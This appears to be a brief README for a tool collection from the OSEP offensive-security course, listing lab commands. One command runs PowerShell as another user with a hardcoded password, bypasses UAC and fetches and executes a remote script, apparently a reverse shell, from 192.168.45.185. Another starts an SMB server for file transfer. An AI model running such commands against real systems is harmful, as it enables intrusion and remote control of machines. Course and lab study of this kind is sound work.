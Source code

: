 Just a bunch of tools built/gathered along the OSEP course.

### Useful Commands:

Run command as another user:
- `Invoke-RunasCs amit 'Password123!' 'powershell iex(iwr http://192.168.45.185/rev.txt -usebasicparsing)' -ForceProfile -CreateProcessFunction 2 -BypassUac`

Set up SMB serevr (file transfer):
- `smbserver.py share $(pwd) -smb2support -username amit -password password`
